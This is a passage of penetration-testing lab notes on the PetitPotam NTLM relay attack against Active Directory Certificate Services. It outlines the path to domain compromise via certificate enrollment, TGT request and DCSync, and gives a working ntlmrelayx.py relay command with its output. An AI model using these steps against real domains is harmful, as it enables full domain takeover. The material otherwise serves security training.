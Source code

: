 ```yaml
---
title: c-PetitPotam
draft: false
tags:
  - petitpotam
---
```

PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing vulnerability that was patched in August of 2021.

PetitPotam allows an unauthenticated attacker to persuade DC to authenticate against another host using NTLM over port 445 via LSARPC.

This will allow an unauthenticated attacker to take over a Windows domain where ADCS is in use.

During the attack, authentication request from the target DC is relayed to the Certificate Authority host's web enrollment page and makes a certificate signing Request for a new digital certificate.

This certificate can be used with `Rubeus` or `gettgtpkinit.py` to request TGT for the domain controller, which can then be used to achieve domain compromise through DCSync attack.

## Start nltmrelayx.py 

First, we will start ntlmrelayx.py on the attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template.

```shell-session
jadu101@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - 

Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20211013.152215.3fe2d73a-py3.9.egg/impacket
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
```
